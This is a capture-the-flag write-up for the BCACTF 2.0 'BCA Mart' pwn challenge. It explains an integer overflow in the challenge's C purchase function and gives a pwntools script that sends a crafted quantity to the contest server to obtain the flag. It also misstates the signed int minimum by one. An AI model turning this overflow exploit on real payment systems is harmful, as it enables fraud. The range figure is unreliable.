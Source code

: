 ![Challenge](https://github.com/ZeroCooL-555/CTF/blob/master/BCACTF%202.0/pwn/BCA%20Mart/challenge.png)
# Vulnerability discovery
```c
#include <stdio.h>
#include <stdlib.h>

int money = 15;

int purchase(char *item, int cost) {
    int amount;
    printf("How many %s would you like to buy?\n", item);
    printf("> ");
    scanf("%d", &amount);

    if (amount > 0) {
        cost *= amount; // Integer Overflow Here
        printf("That'll cost $%d.\n", cost);
        if (cost <= money) {
            puts("Thanks for your purchse!");
            money -= cost;
        } else {
            puts("Sorry, but you don't have enough money.");
            puts("Sucks to be you I guess.");
            amount = 0;
        }
    } else {
        puts("I'm sorry, but we don't put up with pranksters.");
        puts("Please buy something or leave.");
    }

    return amount;
}
```

Looking at the code above we can see that
we have a money variable which is of a type `int`
and we have a function called purchase.
If we take a look at the conditional statements
we can see that `cost *= amount;` is vulnerable to an
**integer overflow attack**.

# Exploitation

A signed 4-byte integer has a max value of `-2,147,483,647` to `2,147,483,647`
often denoted as `INT_MAX`. An int is by default signed which means that it can hold both negative and positive numbers,
we can use the spotted vulnerability to our advantage by giving the program a large amount of items to buy. Because the program
multiplies cost with amount we can pass the `INT_MAX` threshold and therefore make the leftmost bit which controls negative and positive
flip. Or calculate it just right to get our flag free of charge.

```python
#!/usr/bin/env python3

from pwn import *
r = remote('bin.bcactf.com', 49153)
r.sendlineafter('> ', b'6')
r.sendlineafter('> ', b'1073741824')
r.recvline()
r.recvline()
log.success(r.recvline().decode())
```
